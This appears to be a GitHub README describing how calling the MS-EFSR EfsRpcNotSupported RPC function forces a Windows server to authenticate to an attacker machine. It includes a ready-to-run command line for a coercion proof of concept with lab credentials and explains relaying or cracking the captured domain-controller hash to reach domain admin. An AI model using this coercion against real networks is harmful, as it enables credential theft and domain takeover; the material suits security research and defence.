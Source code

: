 # MS-EFSR - Remote call to EfsRpcNotSupported (opnum 11)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\pipe\efsrpc`

+ **Function name**: [`EfsRpcNotSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/473813b6-8290-430c-8124-3ee31c7c9ec5)

+ **Function operation number**: `11`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcNotSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/473813b6-8290-430c-8124-3ee31c7c9ec5) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcNotSupported('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcNotSupported(
   [in] handle_t binding_h,
   [in, string] wchar_t* Reserved1,
   [in, string] wchar_t* Reserved2,
   [in] DWORD dwReserved1,
   [in] DWORD dwReserved2,
   [in, unique] EFS_RPC_BLOB* Reserved,
   [in] BOOL bReserved
 );
```

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

+ Documentation of function `EfsRpcNotSupported`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/473813b6-8290-430c-8124-3ee31c7c9ec5